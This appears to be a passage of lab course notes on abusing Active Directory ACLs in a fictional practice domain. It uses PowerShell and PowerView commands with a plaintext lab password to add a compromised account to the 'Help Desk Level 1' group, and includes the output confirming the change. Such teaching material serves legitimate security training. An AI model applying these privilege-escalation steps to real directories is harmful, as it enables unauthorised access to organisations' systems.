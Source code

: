 # STEP 1 IN ACL ABUSE EXAMPLE. ADD NEW ACCOUNT (ITSELF) TO ANOTHER GROUP ON WHICH IT HAS ALL RIGHTS. SO IT CAN INHERIT THE GROUPS RIGHTS.
## Creating a SecureString Object using damundsen

```Powershell
PS C:\htb> $SecPassword = ConvertTo-SecureString 'Pwn3d_by_ACLs!' -AsPlainText -Force
PS C:\htb> $Cred2 = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\damundsen', $SecPassword) 
```
###### Next, we can use the Add-DomainGroupMember function to add ourselves to the target group. We can first confirm that our user is not a member of the target group. This could also be done from a Linux host using the pth-toolkit.
## Adding damundsen to the Help Desk Level 1 Group

```Powershell
PS C:\htb> Get-ADGroup -Identity "Help Desk Level 1" -Properties * | Select -ExpandProperty Members

CN=Stella Blagg,OU=Operations,OU=Logistics-LAX,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
CN=Marie Wright,OU=Operations,OU=Logistics-LAX,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
CN=Jerrell Metzler,OU=Operations,OU=Logistics-LAX,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
CN=Evelyn Mailloux,OU=Operations,OU=Logistics-HK,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
CN=Juanita Marrero,OU=Operations,OU=Logistics-LAX,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
CN=Joseph Miller,OU=Operations,OU=Logistics-LAX,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
CN=Wilma Funk,OU=Operations,OU=Logistics-LAX,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
CN=Maxie Brooks,OU=Operations,OU=Logistics-LAX,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
CN=Scott Pilcher,OU=Operations,OU=Logistics-LAX,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
CN=Orval Wong,OU=Operations,OU=Logistics-LAX,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
CN=David Werner,OU=Operations,OU=Logistics-LAX,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
CN=Alicia Medlin,OU=Operations,OU=Logistics-HK,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
CN=Lynda Bryant,OU=Operations,OU=Logistics-HK,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
CN=Tyler Traver,OU=Operations,OU=Logistics-HK,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
CN=Maurice Duley,OU=Operations,OU=Logistics-LAX,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
CN=William Struck,OU=Operations,OU=Logistics-HK,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
CN=Denis Rogers,OU=Operations,OU=Logistics-LAX,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
CN=Billy Bonds,OU=Operations,OU=Logistics-LAX,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
CN=Gladys Link,OU=Operations,OU=Logistics-LAX,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
CN=Gladys Brooks,OU=Operations,OU=Logistics-LAX,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
CN=Margaret Hanes,OU=Operations,OU=Logistics-LAX,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
CN=Michael Hick,OU=Operations,OU=Logistics-LAX,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
CN=Timothy Brown,OU=Operations,OU=Logistics-LAX,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
CN=Nancy Johansen,OU=Operations,OU=Logistics-HK,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
CN=Valerie Mcqueen,OU=Operations,OU=Logistics-LAX,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
CN=Dagmar Payne,OU=HelpDesk,OU=IT,OU=HQ-NYC,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
  ACL Abuse Tactics
PS C:\htb> Add-DomainGroupMember -Identity 'Help Desk Level 1' -Members 'damundsen' -Credential $Cred2 -Verbose

VERBOSE: [Get-PrincipalContext] Using alternate credentials
VERBOSE: [Add-DomainGroupMember] Adding member 'damundsen' to group 'Help Desk Level 1'
```
###### A quick check shows that our addition to the group was successful.
## Confirming damundsen was Added to the Group

```Powershell
PS C:\htb> Get-DomainGroupMember -Identity "Help Desk Level 1" | Select MemberName

MemberName
----------
busucher
spergazed

<SNIP>

damundsen
dpayne
```